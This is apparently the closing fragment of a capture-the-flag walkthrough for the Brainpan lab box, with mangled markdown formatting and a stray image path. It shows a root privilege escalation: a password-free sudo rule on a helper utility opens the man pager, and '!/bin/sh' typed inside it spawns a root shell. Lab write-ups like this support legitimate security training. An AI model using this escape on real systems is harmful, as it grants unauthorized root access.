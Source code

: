 -  sudo \-l
User puck may run the following commands on this host:
\(root\) NOPASSWD: /home/anansi/bin/anansi\_util
-  sudo /home/anansi/bin/anansi\_util
Where \[action\] is one of:
\- network \-\> ip a
\- proclist \-\> ps 
\- manual \[command\] \-\> man \(GTFObins\)

-  sudo /home/anansi/bin/anansi\_util manual man
-  \!/bin/sh
# root

\_|                            \_|                                        
\_|\_|\_|    \_|  \_|\_|    \_|\_|\_|      \_|\_|\_|    \_|\_|\_|      \_|\_|\_|  \_|\_|\_|  
\_|    \_|  \_|\_|      \_|    \_|  \_|  \_|    \_|  \_|    \_|  \_|    \_|  \_|    \_|
\_|    \_|  \_|        \_|    \_|  \_|  \_|    \_|  \_|    \_|  \_|    \_|  \_|    \_|
\_|\_|\_|    \_|          \_|\_|\_|  \_|  \_|    \_|  \_|\_|\_|      \_|\_|\_|  \_|    \_|
\_|                          
\_|


[http://www.techorganic.com](#http://www.techorganic.com)



